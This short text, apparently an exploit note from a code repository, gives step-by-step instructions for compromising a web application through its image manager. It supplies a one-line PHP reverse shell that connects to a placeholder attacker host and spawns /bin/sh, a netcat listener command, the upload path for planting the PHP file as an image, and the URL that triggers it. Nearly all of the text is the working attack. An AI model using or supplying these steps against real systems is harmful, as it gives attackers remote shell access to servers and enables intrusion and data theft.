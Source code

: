 ### Edit a reverse shell
```
<?php $sock=fsockopen("<lhost>",<lport>); exec("/bin/sh -i <&3 >&3 2>&3"); ?>
```

### Start listener
```
nc -lvp <port>
```

### Upload php webshell
```
Tools > Image Manager > Choose File > Upload
```

### Use following path to trigger the shell
http://<rhost>/<path>/myFiles/images/<phpShell>  

